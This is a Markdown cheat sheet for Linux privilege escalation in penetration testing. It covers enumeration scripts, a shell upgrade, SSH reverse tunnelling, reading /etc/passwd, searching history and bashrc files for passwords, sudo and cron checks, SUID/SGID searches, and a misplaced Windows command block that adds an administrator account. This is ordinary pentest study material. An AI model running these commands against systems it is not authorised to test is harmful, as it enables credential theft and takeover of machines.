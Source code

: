 # Linux Privilege Escalation

## <a href='https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/' target="blank">Basic Linux Privilege Escalation</a>

## <a href='https://gtfobins.github.io/' target="blank">GTFOBins</a>

## <a href='https://github.com/DominicBreuker/pspy' target="blank">pspy</a>

## Automated Enumeration

``` bash
git clone https://github.com/rebootuser/LinEnum.git

./LinEnum.sh
```

``` bash
git clone https://github.com/diego-treitos/linux-smart-enumeration
```

``` bash
git clone https://github.com/pentestmonkey/unix-privesc-check.git

./unix-privesc-check
./unix-privesc-check standard > output.txt
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/sh')"
export TERM=xterm

stty raw -echo
fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```

## Information Gathering

### What's the OS? What version? What architecture?

``` bash
cat /etc/issue
cat /etc/*-release
uname -i
lsb_release -a (Debian based OSs)
```

### Who are we? Where are we?

``` bash
id
whoami
pwd
```

### Who uses the box? What users? (And which ones have a valid shell)

``` bash
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```

### What's currently running on the box? What active network services are there?

``` bash
ps aux
netstat -antup
```

### What's installed? What kernel is being used?

``` bash
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## Check sudo access 

``` bash
$ sudo -l
[sudo] password for Hades: 
Matching Defaults entries for pentesterlab on 7358cafc3ebe:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User Hades may run the following commands:
    (victim) /bin/bash
```

Mix cp/chown and chmod

https://www.adampalmer.me/iodigitalsec/2009/10/03/linux-c-setuid-setgid-tutorial/

https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

``` bash
sudo -l
Matching Defaults entries for Hades:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User Hades may run the following commands:
    (victim) /bin/chmod, /bin/cp
```

## Check Scheduled Tasks

``` bash
ls -lah /etc/cron*
cat /etc/crontab
```

## Readable/Writable Files and Directories

``` bash
find / -writable -type d 2>/dev/null
```

## Check history, bashrc, backup

``` bash
find / -name *history* 2>/dev/null
find / -name *bashrc* -exec grep passwod {} \; 2>/dev/null
```

## Add Local Admin User

``` bash
net user /add pentest Pass
net localgroup administrators pentest /add
```

## Binaries That AutoElevate

``` bash
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```

## Unmounted Disks

``` bash
cat /etc/fstab
/bin/lsblk
mount
```

## cat /etc/fstab /bin/lsblk mount

``` bash
lsmod
/sbin/modinfo libata
```